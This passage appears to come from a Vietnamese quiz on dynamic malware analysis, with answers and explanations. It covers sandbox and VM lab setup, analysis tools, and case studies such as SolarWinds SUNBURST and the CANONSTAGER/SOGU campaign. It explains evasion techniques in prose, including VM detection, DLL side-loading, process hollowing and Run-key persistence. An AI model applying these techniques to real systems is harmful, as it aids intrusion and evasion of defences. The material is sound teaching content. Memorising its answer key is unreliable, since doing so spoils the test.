    Khi mã độc bị obfuscate (làm rối code) hoặc được pack (nén/mã hóa), Static Analysis gặp bế tắc. Dynamic Analysis cho thấy chính xác mã độc làm gì khi chạy thực tế, vượt qua các kỹ thuật che giấu này.

---

**Câu 3.** "Air-gapped machine" trong phân tích mã độc nghĩa là gì?

- A. Máy được làm lạnh để chạy ổn định
- B. Máy vật lý không có kết nối mạng với Internet hoặc các máy khác
- C. Máy chạy trong môi trường cloud
- D. Máy có cài đặt tường lửa mạnh

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Air-gapped = cách ly hoàn toàn về mạng. Máy không có bất kỳ kết nối nào với Internet hoặc mạng nội bộ, ngăn mã độc lây lan.

---

**Câu 4.** Nhược điểm lớn nhất của việc dùng máy vật lý (real machine) thay vì máy ảo để phân tích mã độc là gì?

- A. Máy vật lý chạy chậm hơn máy ảo
- B. Máy vật lý không thể cài Windows
- C. Khó xóa sạch mã độc sau phân tích, thường phải cài lại hệ điều hành
- D. Máy vật lý không thể chạy các công cụ phân tích

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Sau khi phân tích trên máy vật lý, việc đảm bảo xóa sạch hoàn toàn mã độc là rất khó. Thường phải re-imaging (cài lại toàn bộ OS) để đảm bảo sạch.

---

**Câu 5.** Ưu điểm của máy vật lý so với máy ảo trong phân tích mã độc là gì?

- A. Máy vật lý có hiệu năng cao hơn
- B. Một số mã độc phát hiện môi trường VM và không chạy đúng — máy vật lý tránh được vấn đề này
- C. Máy vật lý dễ reset hơn
- D. Máy vật lý không bị nhiễm mã độc

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Đây là ưu điểm duy nhất của máy vật lý: một số mã độc tinh vi có khả năng phát hiện môi trường ảo hóa (VM detection) và sẽ không chạy hoặc chạy khác đi trong VM.

---

**Câu 6.** VMware Player có giới hạn gì so với VMware Workstation?

- A. VMware Player không hỗ trợ Windows 10
- B. VMware Player không có giao diện đồ họa
- C. VMware Player không hỗ trợ snapshot
- D. VMware Player chỉ chạy được 1 VM cùng lúc

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    VMware Player miễn phí nhưng không hỗ trợ tính năng snapshot — tính năng quan trọng nhất khi phân tích mã độc. VMware Workstation/Fusion có đầy đủ tính năng nhưng cần trả phí.

---

**Câu 7.** Chế độ mạng nào trong VMware được khuyến nghị nhất khi phân tích mã độc lần đầu?

- A. Bridged networking
- B. NAT networking
- C. Host-only networking
- D. Không cần kết nối mạng

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Host-only networking chỉ cho phép VM giao tiếp với máy host, không có kết nối ra Internet hay LAN thật. Đây là cấu hình an toàn nhất để bắt đầu phân tích mã độc.

---

**Câu 8.** Rủi ro khi dùng Bridged networking cho VM chứa mã độc là gì?

- A. Mã độc không chạy được trong chế độ này
- B. Mã độc có thể lây lan ra mạng LAN thật, gửi spam hoặc tham gia DDoS
- C. Tốc độ mạng quá chậm
- D. VMware sẽ tự động tắt VM

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Bridged networking kết nối VM trực tiếp vào LAN thật. Nếu mã độc có khả năng lây lan qua mạng, nó có thể tấn công các máy khác trong LAN, gửi spam email, hoặc tham gia tấn công DDoS.

---

**Câu 9.** Snapshot trong phân tích mã độc được dùng để làm gì?

- A. Chụp ảnh màn hình để làm bằng chứng
- B. Lưu trạng thái sạch của VM trước khi chạy mã độc, để có thể khôi phục sau khi phân tích
- C. Backup dữ liệu của máy host
- D. Ghi lại traffic mạng

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Snapshot lưu toàn bộ trạng thái của VM (memory, disk, settings) tại một thời điểm. Sau khi phân tích xong, "revert to snapshot" đưa VM về trạng thái sạch ban đầu mà không cần cài lại OS.

---

**Câu 10.** Mã độc thường dùng kỹ thuật nào để phát hiện môi trường VMware qua Registry?

- A. Query các key liên quan đến phần cứng thật của máy
- B. Query các entry như `DriverDesc = VMware SCSI Controller` hoặc `ProviderName = VMware, Inc.`
- C. Kiểm tra dung lượng ổ cứng
- D. Kiểm tra số lượng CPU

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Khi VMware tạo VM, nó ghi nhiều entry vào registry của guest OS với các giá trị nhận dạng VMware như "VMware SCSI Controller", "VMware, Inc."... Mã độc query các entry này để xác nhận có đang chạy trong VMware không.

---

**Câu 11.** Prefix MAC address nào KHÔNG thuộc về VMware?

- A. `00-05-69`
- B. `00-0C-29`
- C. `00-1C-14`
- D. `00-1A-2B`

??? info "Đáp án & Giải thích"
    **Đáp án: D**
    
    Các prefix MAC thuộc VMware là: `00-05-69`, `00-0C-29`, `00-1C-14`, `00-50-56`. Prefix `00-1A-2B` không thuộc VMware.

---

**Câu 12.** Ngoài MAC address và registry, mã độc còn dùng phương pháp nào để phát hiện VMware?

- A. Kiểm tra phiên bản Windows
- B. Kiểm tra BIOS serial number (thường chứa chuỗi "VMware") và tìm kiếm các tiến trình VMware như VMwareService.exe
- C. Kiểm tra tốc độ CPU
- D. Kiểm tra tên người dùng

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Mã độc kiểm tra: BIOS serial number (thường có "VMware" trong tên), các tiến trình đặc trưng của VMware (VMwareService.exe, VMwareTray.exe), và các file VMware Tools được cài trong VM.

---

**Câu 13.** Sandbox phân tích mã độc là gì?

- A. Một sandbox để trẻ em chơi
- B. Phần mềm all-in-one cho phân tích động cơ bản, giả lập môi trường và dịch vụ mạng, xuất báo cáo
- C. Một loại firewall đặc biệt
- D. Công cụ để decompile mã độc

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Sandbox là giải pháp tất cả trong một: tự động chạy mã độc trong môi trường ảo hóa, giả lập các dịch vụ mạng, ghi lại hành vi và xuất báo cáo PDF chi tiết. Ví dụ: Joe Sandbox, Any.run, GFI Sandbox.

---

**Câu 14.** Hạn chế nào sau đây KHÔNG phải là hạn chế của sandbox?

- A. Không truyền command-line options cho mã độc
- B. Không giả lập được C2 response để kích hoạt backdoor
- C. Không thể phân tích file .exe
- D. Mã độc có thể phát hiện môi trường sandbox và thay đổi hành vi

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Sandbox hoàn toàn có thể phân tích file .exe. Các hạn chế thực sự của sandbox là: không truyền command-line options, không có C2 response, bỏ sót sự kiện nếu mã độc ngủ lâu, mã độc phát hiện VM, thiếu điều kiện tiên quyết (registry/file), DLL khó chạy, sai OS, không thể kết luận ngữ nghĩa.

---

**Câu 15.** Tại sao sandbox không thể phát hiện mã độc ngủ 1 ngày trước khi hoạt động?

- A. Sandbox chỉ chạy trong 1 phút
- B. Sandbox không hỗ trợ Windows timer
- C. Sandbox không chờ đủ lâu; dù có hook hàm Sleep() để rút ngắn, nhưng có nhiều cách khác để "ngủ" mà sandbox không hook được
- D. Mã độc mã hóa timer của nó

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Hầu hết sandbox hook hàm `Sleep()` để rút ngắn thời gian chờ. Tuy nhiên có nhiều cách khác để delay execution trong Windows mà sandbox không thể hook hết (ví dụ: dùng timer, event, hoặc các system call khác).

---

**Câu 16.** Trong case study về mã độc đánh cắp tài khoản mạng xã hội, file độc hại được ngụy trang là loại file gì?

- A. File Word (.docx)
- B. File ảnh sản phẩm được nén (.rar chứa .bat)
- C. File PDF
- D. File Excel

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    File `.rar` có tên giống ảnh sản phẩm: `Photo-images-Mau-San-Pham_2023-07-21-58.rar`. Bên trong chứa file `.bat` cùng tên. Windows Defender không phát hiện, nhưng Kaspersky và Checkpoint gắn nhãn là `HEUR:Trojan.BAT.Softer.gen`.

---

**Câu 17.** Kỹ thuật obfuscation nào được dùng trong file .bat của case study mã độc đánh cắp tài khoản?

- A. Mã hóa AES toàn bộ file
- B. Gán biến một ký tự ngẫu nhiên để ẩn các chuỗi lệnh thực sự
- C. Dùng steganography ẩn trong ảnh
- D. Nén bằng UPX

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    File .bat dùng kỹ thuật gán biến với tên một ký tự (`set eQ=y`, `set MA=0`...) để chia nhỏ các chuỗi lệnh thực sự. Khi runtime ghép các biến lại, lệnh thực mới được thực thi. Cần dùng AI hoặc công cụ để deobfuscate.

---

**Câu 18.** Mã độc trong case study đặt file persistence vào đâu để tự động chạy khi đăng nhập Windows?

- A. `C:\Windows\System32\`
- B. `C:\Users\Public\Document\`
- C. Thư mục Startup: `C:\Users\<Username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\`
- D. `C:\ProgramData\`

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Mã độc lưu file `WindowsSecure.bat` vào thư mục Startup của Windows. Bất kỳ file nào trong thư mục này sẽ tự động thực thi khi người dùng đăng nhập vào Windows — đây là kỹ thuật persistence phổ biến.

---

**Câu 19.** Trong case study mã độc, tại sao mã độc mở tab Chrome đến AliExpress?

- A. Để mua hàng thật cho nạn nhân
- B. Để đánh lạc hướng nạn nhân trong khi các lệnh độc hại chạy ngầm
- C. Để kiểm tra kết nối Internet
- D. Để download thêm mã độc từ AliExpress

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Mở tab Chrome AliExpress là kỹ thuật social engineering: nạn nhân thấy trang thương mại điện tử bình thường và nghĩ file họ mở là ảnh sản phẩm. Trong khi đó, các lệnh PowerShell độc hại đang chạy ẩn trong background.

---

**Câu 20.** SolarWinds Supply Chain Attack được thực hiện bởi nhóm nào?

- A. Lazarus Group
- B. APT41
- C. APT29 (Cozy Bear)
- D. FIN7

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Cuộc tấn công SolarWinds được quy cho nhóm APT29 (còn gọi là Cozy Bear), một nhóm tấn công được cho là liên kết với cơ quan tình báo Nga (SVR).

---

**Câu 21.** Trojan nào được nhúng vào phần mềm SolarWinds Orion?

- A. TEARDROP
- B. BEACON
- C. SUNBURST
- D. SOGU

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    SUNBURST là trojan được nhúng vào DLL `SolarWinds.Orion.Core.BusinessLayer.dll`. TEARDROP và BEACON (Cobalt Strike) là các payload được triển khai sau đó bởi SUNBURST. SOGU là backdoor trong vụ tấn công PRC khác.

---

**Câu 22.** Tại sao SUNBURST khó bị phát hiện dù được phân phối rộng rãi?

- A. Nó chạy trong kernel mode
- B. Nó ngủ 2 tuần trước khi hoạt động, và file DLL có chữ ký số hợp lệ của SolarWinds
- C. Nó tự xóa sau khi lây nhiễm
- D. Nó chỉ tấn công 1 máy mỗi ngày

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Hai yếu tố then chốt: (1) SUNBURST ngủ 2 tuần sau khi cài đặt trước khi gửi request đến C2 — vượt qua thời gian phân tích của sandbox. (2) File DLL có chữ ký số hợp lệ của SolarWinds Worldwide LLC, giúp vượt qua các whitelist và kiểm tra chữ ký.

---

**Câu 23.** SUNBURST ẩn dữ liệu lệnh C2 trong HTTP traffic bằng kỹ thuật nào?

- A. Mã hóa toàn bộ HTTP request
- B. Dùng custom protocol
- C. Steganography — ẩn lệnh trong các chuỗi GUID và HEX trong HTTP response body trông giống XML bình thường
- D. Gửi lệnh qua DNS TXT record

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    SUNBURST dùng steganography trong HTTP traffic: dữ liệu lệnh được trải rộng trong các chuỗi GUID và HEX trong response body, trông như XML liên quan đến .NET assemblies. Lệnh được trích xuất bằng regex, HEX decode, XOR, rồi DEFLATE decompress.

---

**Câu 24.** Trong cuộc tấn công SolarWinds, sau khi kết nối C2 thành công, bước tiếp theo là gì?

- A. Xóa toàn bộ dữ liệu trên máy nạn nhân
- B. TEARDROP loader → BEACON (Cobalt Strike) → Lateral Movement
- C. Mã hóa files đòi tiền chuộc
- D. Gửi spam email từ máy nạn nhân

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Chuỗi attack: SUNBURST kết nối C2 → Deploy TEARDROP loader → Load BEACON (framework Cobalt Strike) → Lateral Movement để di chuyển sang các máy khác trong mạng nạn nhân.

---

**Câu 25.** Chiến dịch PRC-Nexus Espionage dùng kỹ thuật tấn công ban đầu nào?

- A. Phishing email với file đính kèm
- B. Adversary-in-the-Middle (AitM) kết hợp social engineering — giả mạo cảnh báo "cần cài plugin"
- C. Brute force SSH
- D. SQL injection vào web server của nạn nhân

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Khi nạn nhân duyệt web, browser kiểm tra captive portal. AitM infrastructure redirect browser đến website kẻ tấn công, hiển thị trang trắng với nút "Install Missing Plugins" để lừa nạn nhân tải và chạy payload.

---

**Câu 26.** CANONSTAGER trong chiến dịch PRC dùng kỹ thuật evasion nào liên quan đến TLS?

- A. Mã hóa traffic bằng TLS 1.3
- B. Lưu địa chỉ hàm đã resolve vào TLS (Thread Local Storage) array thay vì bộ nhớ thông thường để tránh bị phát hiện
- C. Tạo TLS certificate giả để bypass HTTPS inspection
- D. Disable TLS trong Windows

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    CANONSTAGER dùng API hashing để che giấu Windows API nào đang dùng, sau đó lưu các function pointer đã resolve vào TLS (Thread Local Storage) array — một vị trí ít bị analyst và security tool chú ý hơn các vùng nhớ thông thường.

---

**Câu 27.** Kỹ thuật DLL side-loading trong chiến dịch PRC hoạt động như thế nào?

- A. Inject DLL vào tiến trình hệ thống
- B. Dùng file EXE hợp lệ (Canon printer tool) để load DLL độc hại (CANONSTAGER) thay vì DLL gốc
- C. Thay thế DLL trong System32
- D. Tạo DLL mới với tên giống DLL hệ thống

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    DLL side-loading: file `cnmpaui.exe` (Canon IJ Printer Assistant Tool hợp lệ) khi chạy sẽ load `cnmpaui.dll`. Kẻ tấn công thay DLL thật bằng CANONSTAGER (`cnmpaui.dll`). EXE hợp lệ vô tình load và thực thi DLL độc hại.

---

**Câu 28.** CANONSTAGER kích hoạt payload SOGU.SEC bằng cơ chế nào?

- A. Tạo thread trực tiếp để chạy SOGU
- B. Ẩn code trong window procedure và trigger gián tiếp qua Windows message queue (WM_SHOWWINDOW)
- C. Inject SOGU vào tiến trình svchost
- D. Tạo scheduled task để chạy SOGU

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    CANONSTAGER dùng Indirect Code Execution: register một window class với custom window procedure, tạo cửa sổ, gửi `WM_SHOWWINDOW` vào message queue. Khi message được nhận, một thread được tạo để RC4 decrypt SOGU.SEC, sau đó thực thi in-memory qua `EnumSystemGeoID` callback.

---

**Câu 29.** LOLBAS là viết tắt của gì và ý nghĩa cốt lõi là gì?

- A. Low-Level Binary Analysis System — phân tích binary cấp thấp
- B. Living Off The Land Binaries, Scripts and Libraries — dùng các công cụ có sẵn hợp lệ trong Windows cho mục đích độc hại
- C. Linux Operating Library Binary Access System
- D. Lightweight Object Loader for Binary Assembly Scripts

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    LOLBAS = Living Off The Land Binaries, Scripts and Libraries. Ý nghĩa: kẻ tấn công dùng các file được Microsoft ký số, native trong Windows (như Rundll32.exe, Certutil.exe...) để thực hiện hành vi độc hại, giúp tránh bị phát hiện bởi whitelist và antivirus.

---

**Câu 30.** Tại sao kẻ tấn công ưa dùng LOLBAS thay vì upload công cụ tấn công riêng?

- A. LOLBAS chạy nhanh hơn
- B. LOLBAS có sẵn trên mọi Windows, được ký số hợp lệ nên khó bị whitelist và antivirus chặn
- C. LOLBAS không tạo log
- D. LOLBAS có khả năng mã hóa tốt hơn

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Dùng LOLBAS giúp kẻ tấn công: không cần upload file (tránh bị phát hiện khi transfer file độc hại), file được Microsoft ký số nên vượt qua application whitelist và nhiều antivirus, và vì đây là công cụ bình thường của Windows nên khó phân biệt với hoạt động hợp lệ.

---

**Câu 31.** Lệnh nào dùng để chạy một DLL bằng Rundll32.exe với exported function tên "Install"?

- A. `rundll32.exe rip.dll /Install`
- B. `rundll32.exe rip.dll -Install`
- C. `rundll32.exe rip.dll, Install`
- D. `rundll32.exe Install rip.dll`

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Cú pháp chuẩn: `rundll32.exe DLLname, Export [arguments]`. Lưu ý dấu phẩy (`,`) giữa tên DLL và tên function, không có dấu cách trước dấu phẩy.

---

**Câu 32.** Làm thế nào để chạy DLL khi function được export theo ordinal số 5?

- A. `rundll32.exe xyzzy.dll, ordinal5`
- B. `rundll32.exe xyzzy.dll, #5`
- C. `rundll32.exe xyzzy.dll, [5]`
- D. `rundll32.exe xyzzy.dll, 5`

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Khi export theo ordinal thay vì tên, dùng ký tự `#` trước số thứ tự: `rundll32.exe xyzzy.dll, #5`.

---

**Câu 33.** Process Monitor (Procmon) giám sát những loại hoạt động nào?

- A. Chỉ registry và file system
- B. Registry, file system, network, process, và thread activity
- C. Chỉ network traffic
- D. CPU và memory usage

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Procmon theo dõi 5 loại hoạt động: Registry (đọc/ghi registry), File system (tạo/đọc/ghi/xóa file), Network (kết nối TCP/UDP), Process (tạo/kết thúc tiến trình), Thread.

---

**Câu 34.** Tại sao không nên để Procmon chạy quá lâu?

- A. Procmon làm chậm CPU
- B. Procmon lưu tất cả events vào RAM và có thể làm hết RAM, crash máy
- C. Procmon tạo file log quá lớn
- D. Procmon sẽ tự động tắt sau 1 giờ

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Procmon lưu tất cả recorded events vào RAM (backed by virtual memory). Nếu hệ thống tạo nhiều events (hàng triệu/giờ là bình thường), RAM sẽ cạn kiệt và máy có thể crash.

---

**Câu 35.** Cách hiệu quả nhất để dùng Procmon khi phân tích mã độc là gì?

- A. Chạy Procmon và quan sát tất cả events
- B. Set filter theo tên file mã độc, clear events trước khi chạy mã độc, sau đó chạy mã độc
- C. Chạy Procmon sau khi mã độc đã chạy xong
- D. Chỉ dùng Procmon để xem network events

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Quy trình tốt nhất: (1) Set filter theo tên executable của mã độc. (2) Clear tất cả events đang có. (3) Chạy mã độc. Điều này đảm bảo chỉ capture events của mã độc, loại bỏ noise từ các tiến trình hệ thống khác.

---

**Câu 36.** Process Explorer hiển thị màu gì cho một tiến trình vừa được tạo mới?

- A. Đỏ
- B. Vàng
- C. Xanh lá (Green)
- D. Tím

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Trong Process Explorer: Xanh lá = process mới được tạo (tạm thời). Đỏ = process vừa kết thúc (tạm thời). Hồng = services. Xanh dương = processes thông thường.

---

**Câu 37.** Tính năng "Verify" trong Process Explorer Properties làm gì và có giới hạn gì?

- A. Kiểm tra virus trong memory, không có giới hạn
- B. Kiểm tra chữ ký Windows của file trên disk, nhưng không kiểm tra RAM image nên không phát hiện được process replacement/hollowing
- C. Verify kết nối mạng của tiến trình
- D. Kiểm tra hash của file với VirusTotal

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Verify button chỉ kiểm tra chữ ký số của file **trên disk**. Nếu mã độc dùng process hollowing (thay thế code của tiến trình hợp lệ trong RAM bằng payload độc hại), Verify vẫn báo "OK" vì file trên disk vẫn hợp lệ — chỉ có code trong RAM bị thay thế.

---

**Câu 38.** Regshot được dùng để làm gì trong phân tích mã độc?

- A. Chụp ảnh màn hình theo thời gian
- B. So sánh 2 snapshot của registry để xác định thay đổi mà mã độc thực hiện
- C. Theo dõi network traffic
- D. Dump memory của tiến trình

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Regshot: Chụp snapshot 1 (trước khi chạy mã độc) → Chạy mã độc → Chụp snapshot 2 → Compare → Kết quả hiển thị mọi thay đổi registry (thêm, xóa, sửa key/value).

---

**Câu 39.** ApateDNS được dùng để làm gì?

- A. Tắt DNS trên máy phân tích
- B. Redirect DNS resolution về địa chỉ IP tùy chỉnh để phân tích domain nào mã độc cố kết nối
- C. Mã hóa DNS query
- D. Block tất cả DNS request

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    ApateDNS intercept DNS request và trả về địa chỉ IP do analyst chỉ định (thường là localhost hoặc IP của INetSim). Giúp xem mã độc đang cố resolve domain nào, sau đó redirect traffic đến máy phân tích thay vì server thật.

---

**Câu 40.** INetSim hoạt động trên nền tảng nào và giả lập những gì?

- A. Windows, giả lập registry
- B. Linux, giả lập hầu hết các dịch vụ Internet (DNS, HTTP, HTTPS, FTP, SMTP, IRC...)
- C. macOS, giả lập network card
- D. Windows, giả lập file system

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    INetSim chạy trên Linux và giả lập đầy đủ các dịch vụ Internet thông dụng. Khi mã độc cố gửi request đến bất kỳ domain nào, INetSim trả về response giả (trang web HTML mặc định, file download giả...) giúp mã độc "nghĩ" nó đang kết nối thành công với C2.

---

**Câu 41.** Wireshark được dùng như thế nào trong lab phân tích mã độc?

- A. Để decompile mã độc
- B. Để capture và phân tích toàn bộ network traffic giữa VM mã độc và INetSim, xem mã độc giao tiếp gì
- C. Để quản lý virtual network
- D. Để block traffic độc hại

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Wireshark capture tất cả packets trên network interface. Trong lab phân tích, nó capture traffic giữa VM chứa mã độc và Linux VM chạy INetSim. Analyst có thể xem DNS query, HTTP request, payload... bằng các filter và Follow TCP Stream.

---

**Câu 42.** Cấu hình lab lý tưởng cho phân tích mã độc với mạng giả lập là gì?

- A. 1 Windows VM kết nối Internet trực tiếp
- B. Windows VM (mã độc) + Linux VM (INetSim) trong cùng Host-only network; Windows VM trỏ DNS về IP của Linux VM
- C. 2 Windows VM kết nối Bridged
- D. 1 VM duy nhất cài cả INetSim và mã độc

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Cấu hình chuẩn: Windows VM (IP: 192.168.117.170, DNS: trỏ về 192.168.117.169) + Linux VM chạy INetSim (IP: 192.168.117.169). Cả hai trong Host-only network. Mã độc send DNS request → redirect về INetSim → INetSim trả response giả → Wireshark capture tất cả.

---

**Câu 43.** Tính năng "Follow TCP Stream" trong Wireshark dùng để làm gì?

- A. Theo dõi tốc độ TCP
- B. Xem toàn bộ nội dung (request + response) của một phiên TCP dưới dạng text đọc được
- C. Chặn một kết nối TCP
- D. Vẽ sơ đồ kết nối TCP

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Follow TCP Stream ghép toàn bộ dữ liệu của một kết nối TCP (cả chiều gửi và nhận) thành một đoạn text dễ đọc. Hữu ích để xem HTTP request/response đầy đủ mà mã độc gửi đến C2. Cũng có thể lưu stream ra file.

---

**Câu 44.** Trong Procmon, filter theo `Operation = RegSetValue` dùng để phát hiện điều gì?

- A. Mã độc đang đọc registry
- B. Mã độc đang ghi giá trị vào registry — thường là cài persistence hoặc thay đổi cấu hình hệ thống
- C. Mã độc đang xóa registry key
- D. Mã độc đang enumerate registry

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `RegSetValue` = mã độc đang set (ghi) giá trị vào registry. Đây là dấu hiệu mã độc có thể đang: cài persistence (Run key), thay đổi cấu hình hệ thống, lưu config của chính nó, hoặc disable tính năng bảo mật.

---

**Câu 45.** Process hollowing (hay process replacement) là gì và tại sao khó phát hiện?

- A. Tạo tiến trình ẩn trong Task Manager
- B. Tạo tiến trình hợp lệ ở trạng thái suspended, thay thế code trong memory bằng payload độc hại, rồi resume — Process Explorer Verify không phát hiện vì file trên disk vẫn hợp lệ
- C. Xóa tiến trình khỏi danh sách
- D. Chạy nhiều bản copy của cùng một tiến trình

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Process hollowing: (1) Tạo tiến trình hợp lệ (như svchost.exe) ở trạng thái suspended. (2) Unmap code gốc khỏi memory. (3) Map payload độc hại vào vùng nhớ của tiến trình đó. (4) Resume tiến trình. Vì file trên disk vẫn là svchost.exe hợp lệ, Process Explorer Verify báo OK.

---

**Câu 46.** Khi phân tích tài liệu độc hại (PDF, Word) bằng Process Explorer, điều gì cần quan sát?

- A. Tên tác giả của tài liệu
- B. Kích thước file tài liệu
- C. Xem tài liệu có spawn tiến trình mới không, và nếu có, dùng Properties → Image tab để tìm vị trí file mã độc trên disk
- D. Ngày tạo file tài liệu

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Tài liệu độc hại thường khai thác lỗ hổng trong ứng dụng đọc file (Adobe Reader, Word) để thực thi shellcode, tạo tiến trình mới. Nếu sau khi mở tài liệu xuất hiện tiến trình không liên quan trong Process Explorer, đó là dấu hiệu tài liệu có mã độc.

---

**Câu 47.** Trong chiến dịch PRC-Nexus, tại sao file payload lại có chữ ký số hợp lệ từ "Chengdu Nuoxin Times Technology Co."?

- A. Để dễ dàng phân phối qua Microsoft Store
- B. Để vượt qua kiểm tra chữ ký số và whitelist của hệ thống, làm nạn nhân tin tưởng file an toàn
- C. Vì công ty này là đối tác của nhóm tấn công
- D. Vì luật pháp Trung Quốc yêu cầu ký số

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    File `AdobePlugins.exe` có chữ ký số EV (Extended Validation) hợp lệ từ Chengdu Nuoxin Times Technology Co. (ký bởi GlobalSign, hợp lệ từ 5/2024 đến 7/2025). Chữ ký EV hợp lệ giúp file vượt qua SmartScreen, antivirus, và làm nạn nhân tin tưởng.

---

**Câu 48.** Phương pháp nào giúp detect DLL Hijacking bằng Procmon?

- A. Filter theo `Operation = CreateProcess`
- B. Filter theo `Result = NAME NOT FOUND` + `Operation = Load Image` để tìm DLL đang được tìm kiếm nhưng không tồn tại — vị trí đó có thể bị khai thác để đặt DLL độc hại
- C. Filter theo `Operation = WriteFile`
- D. Filter theo `Operation = RegSetValue`

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Khi tìm DLL theo search order, nếu ứng dụng tìm DLL ở thư mục hiện tại trước (và không tìm thấy), Procmon sẽ ghi `NAME NOT FOUND`. Nếu kẻ tấn công đặt DLL độc hại vào đúng vị trí đó, ứng dụng sẽ load DLL độc hại thay vì DLL hệ thống.

---

**Câu 49.** MITRE ATT&CK technique T1195.002 liên quan đến điều gì?

- A. Tấn công vào phần cứng
- B. Compromise Software Supply Chain — tấn công vào chuỗi cung ứng phần mềm
- C. Tấn công vào DNS
- D. Tấn công vào cloud storage

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    T1195.002 = Compromise Software Supply Chain. Đây chính là kỹ thuật cốt lõi của vụ SolarWinds: kẻ tấn công xâm nhập vào quy trình build của SolarWinds để nhúng SUNBURST vào bản cập nhật phần mềm hợp lệ, phân phối đến hàng nghìn tổ chức.

---

**Câu 50.** Quy trình phân tích động (dynamic analysis) hoàn chỉnh và đúng thứ tự là gì?

- A. Chạy mã độc → Mở Procmon → Set filter → Phân tích kết quả
- B. Chuẩn bị môi trường VM → Chụp Regshot 1st shot → Mở Procmon với filter → Mở Wireshark → Chạy mã độc → Quan sát → Chụp Regshot 2nd shot → Compare → Phân tích traffic Wireshark
- C. Chạy mã độc trực tiếp trên máy thật → Xem Task Manager
- D. Cài antivirus → Chạy mã độc → Đọc báo cáo antivirus

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Quy trình đúng: (1) Chuẩn bị môi trường cô lập (VM + INetSim). (2) Chụp Regshot 1st shot. (3) Mở Procmon, set filter theo tên mã độc, clear events. (4) Mở Wireshark, bắt đầu capture. (5) Chạy mã độc. (6) Quan sát Process Explorer xem có tiến trình mới. (7) Sau khi phân tích đủ, chụp Regshot 2nd shot và compare. (8) Dừng Wireshark và phân tích traffic.

---

**Câu 51.** SOGU.SEC trong chiến dịch PRC được bảo vệ bằng cách nào trước khi triển khai?

- A. Mã hóa AES-256
- B. Mã hóa RC4 với hardcoded 16-byte key, lưu dưới dạng file `cnmplog.dat`
- C. Nén UPX
- D. XOR với key ngẫu nhiên

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    SOGU.SEC được mã hóa bằng RC4 với key 16 byte hardcode, lưu trong file `cnmplog.dat` đi kèm trong MSI. Khi CANONSTAGER nhận được `WM_SHOWWINDOW`, nó tạo thread để decrypt file này rồi thực thi SOGU.SEC trực tiếp trong memory (không ghi ra disk).

---

**Câu 52.** Tại sao INetSim ưu việt hơn ApateDNS trong việc giả lập mạng?

- A. INetSim chạy được trên Windows
- B. INetSim không chỉ giả lập DNS mà còn giả lập đầy đủ HTTP, HTTPS, FTP, SMTP và nhiều dịch vụ Internet khác; ApateDNS chỉ làm DNS
- C. INetSim có giao diện đồ họa đẹp hơn
- D. INetSim miễn phí còn ApateDNS thì không

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    ApateDNS chỉ xử lý DNS redirect. Sau khi DNS redirect về IP của INetSim, mã độc vẫn cần kết nối HTTP/HTTPS/FTP... INetSim giả lập tất cả các dịch vụ này trên cùng một IP, trả về response giả cho mọi request, cho phép mã độc thực hiện toàn bộ luồng giao tiếp C2 mà không cần server thật.

---

**Câu 53.** Trong Procmon, nếu filter `Process Name = malware.exe` và thấy nhiều events `RegSetValue` vào key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`, điều này có nghĩa là gì?

- A. Mã độc đang đọc thông tin cài đặt Windows
- B. Mã độc đang cài persistence: thêm entry vào registry Run key để tự khởi động cùng Windows
- C. Mã độc đang cập nhật Windows
- D. Đây là hành vi bình thường của mọi ứng dụng

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
